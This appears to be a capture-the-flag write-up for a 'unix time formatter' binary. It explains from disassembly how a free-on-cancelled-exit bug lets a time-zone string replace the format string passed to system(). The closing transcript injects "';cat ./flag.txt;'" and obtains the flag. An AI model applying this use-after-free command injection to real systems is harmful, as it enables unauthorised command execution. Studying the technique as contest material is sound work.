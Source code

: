 ### Solved by Swappage

unix time formatter is an ELF64 binary where our objective is gain a shell on the server.

    unix_time_formatter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5afd38988c61546c0035e236ce938af6181e85a6, stripped

The binary, when runs, provides us with a menu with 5 choices:

    Welcome to Mary's Unix Time Formatter!
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.

each invoking a different function.

Every option in this program is useful for the exploitation, except from the second one, that accepts as input the actual timestamp.

If we feed the application with normal input, without any bad behaviour, and print the time with the option 4, we can quickly notice that system() is invoked with the command:

    /bin/date -d @<timestamp> +'<format_string>'

A look in depth in the disassembler reveals, that in fact it invokes the command with

    /bin/date -d @%d +'%s'

This looks like a command injection, but since the timestamp is passed as %d, we can't inject anything in there, and the format string is sanitized.

but what about the timezone?

A more in depth analysis revealed that the function responsible for setting the format string, and the one responsible for the timezone (which is actually useless if not for exploitation purposes), make a good use of the *strdup()* function, allocating on the heap a memory region every time we define a new format string or time zone

    / (fcn) fcn.00400c26 88
    |          ; CALL XREF from 0x00400ddb (fcn.00400d74)
    |          0x00400c26    55             push rbp
    |          0x00400c27    53             push rbx
    |          0x00400c28    4889fd         mov rbp, rdi
    |          0x00400c2b    51             push rcx
    |          0x00400c2c    e82ffeffff     call sym.imp.strdup ;sym.imp.strdup(unk, unk, unk)
    |          0x00400c31    4885c0         test rax, rax
    |      ,=< 0x00400c34    7511           jne 0x400c47                  
    |      |   0x00400c36    beb4104000     mov esi, str.strdup            ; "strdup" @ 0x4010b4
    |      |   0x00400c3b    bf01000000     mov edi, 1
    |      |   0x00400c40    31c0           xor eax, eax
    |      |   0x00400c42    e8b9fdffff     call sym.imp.err ;sym.imp.err()
    |      |   ; JMP XREF from 0x00400c34 (fcn.00400c26)
    |      `-> 0x00400c47    bfbb104000     mov edi, str.DEBUG             ; "DEBUG" @ 0x4010bb
    |          0x00400c4c    4889c3         mov rbx, rax
    |          0x00400c4f    e8ccfcffff     call sym.imp.getenv ;sym.imp.getenv()
    |          0x00400c54    4885c0         test rax, rax
    |     ,==< 0x00400c57    741e           je 0x400c77                   
    |     |    0x00400c59    488b3da01420.  mov rdi, qword [rip + 0x2014a0]  ; [0x602100:8]=0x3531303220312e32  ; "2.1 20151010" @ 0x602100
    |     |    0x00400c60    4989d8         mov r8, rbx
    |     |    0x00400c63    4889e9         mov rcx, rbp
    |     |    0x00400c66    bac1104000     mov edx, str.strdup__p_____p_n ; "strdup(%p) = %p." @ 0x4010c1
    |     |    0x00400c6b    be01000000     mov esi, 1
    |     |    0x00400c70    31c0           xor eax, eax
    |     |    0x00400c72    e8d9fdffff     call sym.imp.__fprintf_chk ;sym.imp.__fprintf_chk()
    |     |    ; JMP XREF from 0x00400c57 (fcn.00400c26)
    |     `--> 0x00400c77    4889d8         mov rax, rbx
    |          0x00400c7a    5a             pop rdx
    |          0x00400c7b    5b             pop rbx
    |          0x00400c7c    5d             pop rbp
    \          0x00400c7d    c3             ret


if we look at it in the debugger we can see that memory is allocated like this

    0x603010:	0x00005925	0x00000000	0x00000000	0x00000000
    0x603020:	0x00000000	0x00000000	0x00000041	0x00000000
    0x603030:	0x41414141	0x41414141	0x41414141	0x41414141
    0x603040:	0x41414141	0x41414141	0x41414141	0x41414141

with the first parte being the format string, and the second one being the timezone, on which no check is performed

When the function responsible for invoking /bin/date is called the value of the format string is used; if we can trick the application to use the timezone buffer instead of the format string for running /bin/date, we can inhect arbitrary command.

This can be achieved thanks to a bug in the exit function.

    / (fcn) fcn.00400f8f 150
    |          0x00400f8f    4883ec28       sub rsp, 0x28
    |          0x00400f93    488b3d7e1120.  mov rdi, qword [rip + 0x20117e]  ; [0x602118:8]=0x707265746e692e  ; ".interp" @ 0x602118
    |          0x00400f9a    64488b042528.  mov rax, qword fs:[0x28]        ; [0x28:8]=0x21f8  ; '('
    |          0x00400fa3    4889442418     mov qword [rsp + 0x18], rax     ; [0x18:8]=0x400b30 entry0
    |          0x00400fa8    31c0           xor eax, eax
    |          0x00400faa    e8cffcffff     call fcn.00400c7e ;fcn.00400c7e() ; fcn.00400be0+158
    |          0x00400faf    488b3d5a1120.  mov rdi, qword [rip + 0x20115a]  ; [0x602110:8]=0x62617472747368  ; "hstrtab" @ 0x602110
    |          0x00400fb6    e8c3fcffff     call fcn.00400c7e ;fcn.00400c7e() ; fcn.00400be0+158
    |          0x00400fbb    be0a124000     mov esi, str.Are_you_sure_you_want_to_exit__y_N__ ; "Are you sure you want to exit (y/N)? " @ 0x40120a
    |          0x00400fc0    bf01000000     mov edi, 1
    |          0x00400fc5    31c0           xor eax, eax
    |          0x00400fc7    e864faffff     call sym.imp.__printf_chk ;sym.imp.__printf_chk()
    |          0x00400fcc    488b3d0d1120.  mov rdi, qword [rip + 0x20110d]  ; [0x6020e0:8]=0x625528203a434347  ; "GCC: (Ubuntu 5.2.1-22ubuntu2) 5.2.1 20151010" @ 0x6020e0
    |          0x00400fd3    e838faffff     call sym.imp.fflush ;sym.imp.fflush()
    |          0x00400fd8    488b15111120.  mov rdx, qword [rip + 0x201111]  ; [0x6020f0:8]=0x75627532322d312e  ; ".1-22ubuntu2) 5.2.1 20151010" @ 0x6020f0
    |          0x00400fdf    488d7c2408     lea rdi, qword [rsp + 8]        ; 0x8
    |          0x00400fe4    be10000000     mov esi, 0x10
    |          0x00400fe9    e8f2f9ffff     call sym.imp.fgets ;sym.imp.fgets()
    |          0x00400fee    8a542408       mov dl, byte [rsp + 8]          ; [0x8:1]=0
    |          0x00400ff2    31c0           xor eax, eax
    |          0x00400ff4    83e2df         and edx, 0xffffffdf
    |          0x00400ff7    80fa59         cmp dl, 0x59                   ; 'Y'
    |      ,=< 0x00400ffa    750f           jne 0x40100b                  
    |      |   0x00400ffc    bf30124000     mov edi, str.OK__exiting.      ; "OK, exiting." @ 0x401230
    |      |   0x00401001    e84af9ffff     call sym.imp.puts ;sym.imp.puts()
    |      |   0x00401006    b801000000     mov eax, 1
    |      |   ; JMP XREF from 0x00400ffa (fcn.00400f8f)
    |      `-> 0x0040100b    488b4c2418     mov rcx, qword [rsp + 0x18]     ; [0x18:8]=0x400b30 entry0
    |          0x00401010    6448330c2528.  xor rcx, qword fs:[0x28]
    |     ,==< 0x00401019    7405           je 0x401020                   
    |     |    0x0040101b    e850f9ffff     call sym.imp.__stack_chk_fail ;sym.imp.__stack_chk_fail()
    |     |    ; JMP XREF from 0x00401019 (fcn.00400f8f)
    |     `--> 0x00401020    4883c428       add rsp, 0x28
    \          0x00401024    c3             ret

as we can see the program invokes *fcn.00400c7e* and *fcn.00400c7e* right at the beginning, and then asks us for confirmation if we really want to exit.

these two function are responsible for freeing the allocated memory before exiting the application

    / (fcn) fcn.00400c7e 55
    |          ; CALL XREF from 0x00400e27 (fcn.00400e00)
    |          ; CALL XREF from 0x00400faa (fcn.00400f8f)
    |          ; CALL XREF from 0x00400fb6 (fcn.00400f8f)
    |          0x00400c7e    53             push rbx
    |          0x00400c7f    4889fb         mov rbx, rdi
    |          0x00400c82    bfbb104000     mov edi, str.DEBUG             ; "DEBUG" @ 0x4010bb
    |          0x00400c87    e894fcffff     call sym.imp.getenv ;sym.imp.getenv(unk)
    |          0x00400c8c    4885c0         test rax, rax
    |      ,=< 0x00400c8f    741b           je 0x400cac                   
    |      |   0x00400c91    488b3d681420.  mov rdi, qword [rip + 0x201468]  ; [0x602100:8]=0x3531303220312e32  ; "2.1 20151010" @ 0x602100
    |      |   0x00400c98    4889d9         mov rcx, rbx
    |      |   0x00400c9b    bad2104000     mov edx, str.free__p__n        ; "free(%p)." @ 0x4010d2
    |      |   0x00400ca0    be01000000     mov esi, 1
    |      |   0x00400ca5    31c0           xor eax, eax
    |      |   0x00400ca7    e8a4fdffff     call sym.imp.__fprintf_chk ;sym.imp.__fprintf_chk()
    |      |   ; JMP XREF from 0x00400c8f (fcn.00400c7e)
    |      `-> 0x00400cac    4889df         mov rdi, rbx
    |          0x00400caf    5b             pop rbx
    \          0x00400cb0    e98bfcffff     jmp sym.imp.free

meaning that if we pretend to quit the application and then don't confirm, the program will *free()* our previously allocated memory regions, resulting in a use after free vulnerability.

After the memory has been freed, if we create a new timezone element on the heap, it will be created at the same memory region where initially the format string was stored, resulting in a command injection.

here is the exploit in action:

    Welcome to Mary's Unix Time Formatter!
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 1
    Format: %Y
    Format set.
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 5
    Are you sure you want to exit (y/N)? N
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 2
    Enter your unix time: 1460853504.891168
    Time set.
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 3
    Time zone: ';cat ./flag.txt;'   
    Time zone set.
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
    > 4
    Your formatted time is:
    PCTF{use_after_free_isnt_so_bad}
    sh: 1: : Permission denied
    1) Set a time format.
    2) Set a time.
    3) Set a time zone.
    4) Print your time.
    5) Exit.
